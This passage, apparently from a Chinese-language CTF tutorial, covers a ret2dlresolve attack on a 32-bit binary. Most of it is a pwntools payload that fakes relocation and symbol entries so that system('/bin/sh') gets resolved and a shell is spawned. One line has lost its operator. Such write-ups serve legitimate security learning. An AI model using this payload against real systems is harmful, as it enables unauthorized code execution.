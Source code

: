结果如下：

![](https://lgyserver.top/wp-content/uploads/2022/04/1-6.png)

## 步骤6：伪造dynstr查到的值，链接进system

到这一步我们要干什么就很明显了：把上面的程序`write`改成`system`即可。这样`_dl_runtime_resolve`就会把`system`链接进来，`cmd`会作为buffer参数传递给它。

函数名字改了，参数也得改掉，`system`的参数就是一个buffer地址，只有一个参数，因此我们要修改一下参数部分，详见代码里的注释

于是我们最终有：

```
cmd = "/bin/sh"
plt_0 = 0x08049020
rel_plt = 0x08048364
reloc_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x0804820c
dynstr = 0x080482ac
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8)  0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(reloc_offset)
# 不重要，是return回来以后执行的，可以放ppp_ret的gadget，但我们不需要让他返回了。
payload2 += 'AAAA' 
# 重要，是system的第一个参数，指向一个字符串buffer
payload2 += p32(base_stage + 80)
# 不重要了，system只有一个参数，不删掉是因为删了后面的偏移还要重新算
payload2 += 'AAAA'
payload2 += 'AAAA'
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

最终，我们拿到了一个shell。
